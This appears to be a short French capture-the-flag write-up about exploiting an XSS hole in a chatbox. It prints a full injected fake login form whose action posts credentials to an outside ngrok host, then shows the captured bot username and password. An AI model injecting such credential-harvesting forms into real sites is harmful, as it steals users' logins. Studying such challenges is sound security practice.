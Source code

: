 On a une chatbox, avec la possibilité de faire du XSS, mais cela est-il la vrai solution pour extraire le mdp ?

Il faut poster le formulaire de login et le rediriger vers un site pirate et attendre que le bot trigger l'exploit:

```HTML
<div class="modal fade" id="login-modal" tabindex="-1" role="dialog" aria-labelledby="exampleModalCenterTitle" aria-hidden="true">
	<div class="modal-dialog modal-dialog-centered" role="document">
		<div class="modal-content">
			<div class="modal-header">
				<h5 class="modal-title" id="exampleModalCenterTitle">Connexion</h5>
				<button type="button" class="close" data-dismiss="modal" aria-label="Close">
					<span aria-hidden="true">&times;</span>
				</button>
			</div>
			<div class="modal-body">
				<form id="loginForm" action="https://e635-82-66-107-105.eu.ngrok.io" method="POST">
					<div class="form-group">
						<label for="username">Utilisateur</label>
						<input type="text" name="username" class="form-control" id="log_username" placeholder="Utilisateur">
					</div>
					<div class="form-group">
						<label for="password">Mot de passe</label>
						<input type="password" name="password" class="form-control" id="Password" placeholder="Mot de passe">
					</div>
					<button id="login-btn" type="submit" class="btn btn-primary">Envoyer</button>
				</form>
			</div>
			<div class="modal-footer">
				<button type="button" class="btn btn-secondary" data-dismiss="modal">Fermer</button>
			</div>
		</div>
	</div>
</div>
```

On récupère donc:

>> username : Shopeors

>> password :	X5S_4_3V3r!!
